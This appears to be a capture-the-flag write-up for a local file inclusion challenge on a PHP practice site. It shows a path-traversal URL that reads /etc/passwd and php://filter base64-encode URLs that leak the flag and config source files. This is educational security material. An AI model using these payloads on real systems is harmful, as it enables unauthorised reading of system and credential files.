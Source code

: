 The target site: `https://hackme.inndy.tw/lfi/`

And check the functions provided: 
`https://hackme.inndy.tw/lfi/?page=pages/index`.
As you can see,the parameter `page` comes with path to some file defaultly.

I supposed that there is a LFI problem.

` https://hackme.inndy.tw/lfi/?page=../../../../etc/passwd `.

SO?

The source code of `pages/index` mentions: 
```
<!-- There is no flag
                <li>
                    <a href="?page=pages/flag">Flag</a>
                </li>
-->
```

BUT!

We CAN'T read `pages/flag` directly because the back-end PHP code may use some functions including file as PHP code and parsing it, such as `include`,`require` and so on.

Tricky time !

Use `filter` meta-wrapper of `php://` I/O stream to exploit the LFI vulnerability
> please visit [Wrappers](https://www.php.net/manual/en/wrappers.php.php) for more information.

`https://hackme.inndy.tw/lfi/?page=php://filter/convert.base64-encode/resource=pages/flag`

The conversion filter `convert.base64-encode` help us to read the files with base64-encoding.

> [Conversion Filters](https://www.php.net/manual/en/filters.convert.php)

Finally,

```
https://hackme.inndy.tw/lfi/?page=php://filter/convert.base64-encode/resource=pages/config
```
All done !




